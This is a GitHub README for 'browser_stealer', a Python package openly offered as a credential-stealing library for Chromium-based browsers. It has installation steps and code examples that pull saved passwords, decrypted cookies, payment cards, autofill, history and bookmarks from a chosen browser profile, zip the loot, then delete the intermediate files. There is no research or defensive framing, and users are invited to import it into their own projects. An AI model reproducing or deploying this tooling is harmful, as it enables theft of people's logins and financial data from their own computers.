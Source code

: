 <!-- <h1 align="center">Browser Stealer<h1> -->

<p align="center">
  <img src="https:\\github.com\Josakko\browser_stealer\blob\main\img\banner.png?raw=true" alt="Browser Stealer">
</p>
  
<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.0.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download whl(`browser_stealer.whl`) file from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer.whl` and run following command:

```
pip install browser_stealer.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%FOLDER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
